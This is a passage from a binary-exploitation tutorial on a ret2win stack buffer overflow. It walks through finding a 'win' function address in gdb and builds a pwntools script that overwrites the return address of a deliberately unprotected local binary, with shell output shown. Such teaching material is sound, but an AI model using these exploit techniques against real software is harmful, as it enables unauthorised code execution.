 Now, we need to figure out where we are going to return to. We can input this manually, or get pwntools to help us

Let's do it manually

We know we want to return to the win function \(hence this exploit is aptly named `ret2win`\), so let's print the address for it

```python
gef➤  p win
$2 = {<text variable, no debug info>} 0x401146 <win>
```

And so when we replace `0xdeadbeef` with that address, it should execute that function.

```python
$ python exploit-x86_64.py
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './bof': pid 62352
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
$ id
uid=1000(tango) gid=1000(tango) groups=1000(tango),0(root),108(vboxusers),969(tablet)
$ echo pwned
pwned

```

Bamn!! We've done it! But now, let's edit our exploit a tiny bit to use pwntools

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)

payload = b"A"*72
payload += p64(e.symbols["win"])

p.sendline(payload)
p.interactive()
```

And run it

```python
$ python exploit-x86_64.py
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '.bof': pid 62471
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
$ id
uid=1000(tango) gid=1000(tango) groups=1000(tango),0(root),108(vboxusers),969(tablet)

```
